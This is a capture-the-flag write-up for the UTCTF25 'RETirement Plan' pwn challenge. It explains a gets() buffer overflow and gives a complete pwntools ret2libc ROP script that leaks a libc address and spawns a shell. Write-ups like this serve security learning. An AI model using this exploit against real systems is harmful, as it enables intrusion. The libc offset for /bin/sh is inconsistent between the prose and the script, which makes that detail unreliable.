


WriteUp for  RETirement Plan @ UTCTF25
Category: Binary Exploitation / Pwn

    Upon opening the challenge we are presented with a binary and a libc file
    
    checking the binary we get
    `    
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x3fe000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No `

    We see the file has: 
    - ==No stack canary== : so the buffer overflow is possible
    - ==NX is not enabled== : so injection of code in the stack is possible
    - ==No Pie== : so the binary is n .. .    
    

    Let's now analyze the binary file on a tool like ghidra
    

    What the code does is very simple:

    ```
    It uses puts to display an output to the user 
    Uses gets to get user input into a 48 byte buffer (exploitable via overflow)
    And for each char od the user input it transforms them in their opposite, meaning a -> z, b -> x, A -> Z ...
    if the character is lowercase does -0x25, if it is uppercase does -0x65
    ``` 


    From this we know that the code will never provide us a flag, so we need to execute system("/bin/sh"), for this we need to know the system call address and the /bin/sh address. 
    Due to the machine having ASLR enabled, these addresses will always be random, but their offset to the libc base address is always constant, and we have the libc file so lets find their offsets 

    Upon running the libc in gdb and doing p system we receive : 
    `$1 = {<text variable, no debug info>} 0x453a0 <system>`
    So our system offset is ==0x453a0== 

    And if we do 
    `strings -t x libc-2.23.so | grep /bin/sh` 
    we get the /bin/sh offset ==18ce57==

    So if we get the address of a call in the program, we can use it to calculate the libc base address and then the system's and /bin/sh's, so let's choose the first call, puts()

    we see on the libc that the puts offset is :
    `$1 = {<text variable, no debug info>} 0x6f6a0 <puts>`

    So essentially what we need to do is run the program, get puts address, call main() again so process doesn't finish, calculate the system() and /bin/sh addresses, call system with /bin/sh.

    So now we need to get the main() address and gadgets to overwrite the return address
    
    If we use cylic to crash the program and check it using gdb we can see
    

    That the main address is 0x40070d - 247 = ==0x400616==

    Getting the gadgets using ROPGadget 
    
    ```
    ROPgadget --binary ./shellcode | grep "pop rdi"
    0x0000000000400793 : pop rdi ; ret
    0x00000000004004a9 : ret
    ```

    pop rdi: Pops the top value from the stack into the rdi register.
    ret: Returns to the next address on the stack.

    The first argument to a function is passed in the rdi register. For example:
    To call puts("Hello"), the address of the string "Hello" must be placed in rdi.
    To call system("/bin/sh"), the address of the string "/bin/sh" must be placed in rdi.

    The pop rdi; ret gadget allows us to control the rdi register by popping a value from the stack into it.


Polished commented script 

```
from pwn import *

# Load the binary and libc
elf = context.binary = ELF('./shellcode')
libc = ELF('./libc-2.23.so')
p = process('./shellcode')

# Address of a frame_dummy, to clear the registers so we dont crash,  mov eax, 0x0
add = 0x400600

# Receive initial prompt
p.recv()

# Payload to leak the address of puts
payload = b'A' * 47  # Padding (gets tries to get 48 bytes)
payload += b'F'  # Marker for reference
payload += p64(add)  # Overwrite return address
payload += 16 * b'b'  # Additional padding
payload += p64(0x400793)  # pop rdi; ret gadget pops the next value in the stack (puts GOT) into rdi, and return (plt.puts) which calls puts(puts@got) and prints the puts address
payload += p64(elf.got.puts)  # Address of puts in GOT
payload += p64(elf.plt.puts)  # Call puts to leak the address
payload += p64(0x400616)  # Return to main for second stage

p.sendline(payload)

# Parse the leaked address of puts
p.recvuntil(b'F')
output = p.recvuntil(b'\n').strip()
puts_addr = u64(output.ljust(8, b'\x00'))
 
libc_addr = puts_addr - 0x6f6a0  # Offset of puts in libc
bin_sh = libc_addr + 0x18ce67  # Offset of /bin/sh in libc
system_addr = libc_addr + 0x453a0  # Offset of system in libc

# Second payload to spawn a shell
payload2 = b'C' * 48  # Padding
payload2 += p64(add)  # Overwrite return address
payload2 += 16 * b'b'  # Additional padding
payload2 += p64(0x00000000004004a9)  # ret gadget for stack alignment
payload2 += p64(0x400793)  # pop rdi; ret gadget pops next value (bin_sh) into rdi and returns this instruction to the next address in the stack (system_addr) calling system("/bin/sh") 
payload2 += p64(bin_sh)  # Address of /bin/sh
payload2 += p64(system_addr)  # Call system

p.sendline(payload2)

# Interact with the shell
p.interactive()
```


